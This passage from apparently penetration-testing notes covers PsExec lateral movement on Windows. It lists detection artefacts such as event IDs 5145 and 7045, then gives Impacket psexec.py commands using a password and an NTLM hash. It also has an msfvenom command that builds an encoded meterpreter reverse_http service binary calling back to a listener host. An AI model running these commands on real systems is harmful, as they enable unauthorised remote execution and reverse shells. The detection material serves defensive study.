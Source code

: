 ### Detection on Target Machine
  - Since `psexecsvc.exe` is uploaded to target's network share (`ADMIN$`) a windows event log id `5145` (network share was checked for access) will be logged.
  - Event id `7045` for initial service installation will also be logged.
  - Furthermore the existance of file `psexecsvc.exe` is an indication that psexec has been used to access target machine.

### Detection on Source host
  - A registry value is created when PsExec License Agreement has been agreed to.
  - Execution history (prefetch)

---

## Impacket PsExec.py
  + Similar to sysinternals psexec.
  + Needs admin rights on target machine
  + Port used: 445
  + Instead of uploading psexeccsv service binary, it uploads to `ADMIN$` a service binary with an arbitrary name. It may be flagged and stopped by AV, EDR
  + Interactive binaries like (powershell, vssadmin, plink...) will cause the service to fail
  ```sh
  #Using credentials
  psexec.py user1:"password"@172.16.50.42 cmd.exe
  #Using hashes
  psexec.py -hashes :217e50203a5aba59cefa863c724bf61b user1@172.16.50.42 cmd.exe
  ```

## PsExec-like without psexec (Using SC like psexec but in a manual way)
  + Requirements:
    - Port 139,445 open on the remote machine (smb)
    - Password or NTLM hash
    - Write permissions on a network shared folder. Doesn't matter which one.  
      NOTE: `NTFS permissions != Share Permissons`. So, permission to write locally is not enough
    - Permissions to create services on the remote machine: `SC_MANAGER_CREATE_SERVICE`-(Access mask: 0x0002)
    - Ability to start the service created:   
      `SERVICE_QUERY_STATUS (Access mask: 0x0004) + SERVICE_START (Access mask: 0x0010)`
  + The last 2 requirements above are granted to administrators. So an unpriviliged user does not comply with them.
  + For more details check https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec

  + Example
    ```sh
    # Create an exe as a service
    msfvenom -p windows/x64/meterpreter/reverse_http LHOST=172.16.50.48 LPORT=8080 -f exe-service --platform windows -e x64/xor_dynamic  -o meter64_service.exe
    # List Shares
    smbclient -L 172.16.50.42 -U user1
    ```